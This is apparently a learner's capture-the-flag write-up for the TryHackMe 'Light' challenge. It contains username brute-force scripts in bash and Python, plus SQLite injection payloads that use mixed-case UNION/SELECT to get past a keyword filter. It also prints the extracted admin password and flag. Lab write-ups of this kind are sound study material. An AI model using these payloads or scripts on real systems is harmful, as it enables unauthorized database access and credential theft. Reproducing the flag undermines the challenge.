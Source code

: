 # Light (\*\*pending further experimentations)

I started on this challenge with minimal knowledge of SQL/SQLite commands and workings (just the basics as learnt from the TryHackMe course room detailed under the Web Hacking -> SQL Injection section in this gitbook: [https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking/web-hacking/sql-injection](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking/web-hacking/sql-injection)). I have gained ideas and insights from a few online resources and also from _ChatGPT_.

Note: _ChatGPT_ was used to point myself towards the right direction on SQLite specific concepts such as commands to retrieve the table or columns names from the current database instance, but not on specific SQL injection concepts. The SQL injection commands were generated by myself based on multple trial-and-errors. For example, commands to query from `sqlite_master` was generated by ChatGPT, however, the insertion of specific characters (eg. quotation marks, equal signs, etc.) within the final command sent to the vulnerable database application was from myself.



_**Bash script to brute force the password:**_

```bash
#!/usr/bin/bash

filename="/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt"

while IFS="" read -r line; do
	# eg. echo smokey | nc <target> 1337
	res=$(echo "$line" | nc -w 1 <target> 1337)

	if [[ "$res" == *"not found"* ]]; then
		# if the substring "not found" is present, means user not found
		...
	else
		# print success message and exit
		...
	fi;

done < "$filename"


```

_**Python script:**_

```python
#!/usr/bin/python3

import socket

HOST='10.10.34.209'
PORT=1337
#filename='/usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt'
#filename='test.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/names.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/femalenames-usa-top1000.txt'
#filename='Security-Research/tools/aws-pentest-tools/iam_user_enum/default-word-list.txt'
filename='wordlist/usernames.txt'

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST,PORT))
    s.recv(1024) # flush 1
    s.recv(1024) # flush 2


    f = open(filename, 'r')

    for username in f:
        if len(username) <= 10:
            continue

        username = username.lower()

        print(f'[!] Trying {username.replace('\n', '')}', end=' ')
        
        s.send(bytes(username, 'utf-8'))
        data = s.recv(1024)
        str_data = str(data, 'utf-8')

        if 'not found' in str_data:
            print('failed')
            s.recv(50)

        else:
            print(str_data)
            break

    f.close()

```

_**Word-lists to try out**_:

1. /`usr/share/wordlists/seclists/Usernames/Names/names.txt`
2. `/usr/share/wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt`&#x20;
3. `/usr/share/wordlists/seclists/Usernames/Names/femalenames-usa-top1000.txt`

I found the username: alice. However this wasn't the admin username. Probably a rookie mistake on my part for not realising sooner that an SQL injection is likely to be more feasible.&#x20;

### SQL Injection

I noticed that the input form length is very long, and realized that it's highly unlikely that I would be able find the username with a simple brute-force. The following shows a bunch of input (first line) and output from the application (second line)

As suggested from the challenge name, this database is likely to be a SQLite database application.

**Possible SQL statements on the server side:**

```sql
SELECT * FROM users WHERE name='smokey';
```

**Attempts with common SQL injection inputs:**

1. _**Force the statement to resolve to true**_

Potentially tricking the database to return all the users

```sql
' OR 1=1 --
```

```sql
SELECT * FROM users WHERE name='' OR 1=1--';
```

Reponse: _For strange reasons I can't explain, any input containing /\*, -- or, %0b is not allowed :)_

This tells us that comment values are banned

**Another attempt:**

```sql
' OR ''='
```

```sql
SELECT * FROM users WHERE name='' OR ''='';
```

This seems to return a password value (that is returned from the _alice_ username).&#x20;



2. _**UNION and SELECT statement**_

The UNION and SELECT keywords (along with their lower capital variations) are all banned too

```sql
UNION
SELECT
union
select
```

Reponse: _Ahh there is a word in there I don't like :(_

3. _**Obfuscation**_

After pondering for awhile on the error message returned from the statement in point 2 above, I got the idea of using non-standard SQL keyword commands, apart from the conventional fully capitalized, or fully non-capitalized versions (eg. `UNION`, `union`).



```sql

' Union Select name from sqlite_master where type = 'table' '=

--**
' Union Select name from sqlite_master where type = 'table' OR '=
--OUTPUT: Password: admintable


--**
' Union Select * from admintable '=
--OUTPUT: Error: SELECTs to the left and right of UNION do not have the same number of result columns
' AND '1=0' Union Select * from admintable '=
--OUTPUT: Error: SELECTs to the left and right of UNION do not have the same number of result columns


--** TRYING TO GET COLUMN NAMES OF THE TABLE 'admintable'
-- ** NOTICE the different cases of the letters other than: UNION, union
' Union SELECt sql FROM sqlite_master WHERE type = 'table' AND name = 'users' OR '=
--OUTPUT: 
/*
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
*/

--**
' Union Select username from admintable '
--OUTPUT: Password: TryHackMeAdmin
' UnIoN Select password from admintable '
--OUTPUT: Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}
' UNion Select password from admintable where username='TryHackMeAdmin' or '=
--OUTPUT: Password: mamZtAuMlrsEy5bp6q17



```

From the results, I have learnt that SQLite accepts variations of SQL keywords, such as but not limited to: `Union`, `uNion`, `unIon`, `uniOn`, `UNion`, etc.





ARCHIVE (pending deletion):

<pre class="language-sql"><code class="lang-sql">-- 1)
--INPUT: ' OR 1=1 
-- Error: unrecognized token:  "' LIMIT 30" 

--3) 
--INPUT: ' OR 1=1;
--Pause with no response

--2) 
--INPUT: 'UNION 
<strong>--Ahh there is a word in there I don't like :(
</strong>
--3)
--INPUT: 'SELECT
--Ahh there is a word in there I don't like :(

--4)
<strong>--INPUT: '--
</strong>--For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)

--5) 
--INPUT: '' LIMIT 30 OR '1=1;
--Error: near "LIMIT": syntax error

</code></pre>



{% embed url="https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#FindColumnsHavingGroupbyErrorBased" %}

{% embed url="https://www.tutlane.com/tutorial/sqlite/sqlite-injection-attacks" %}
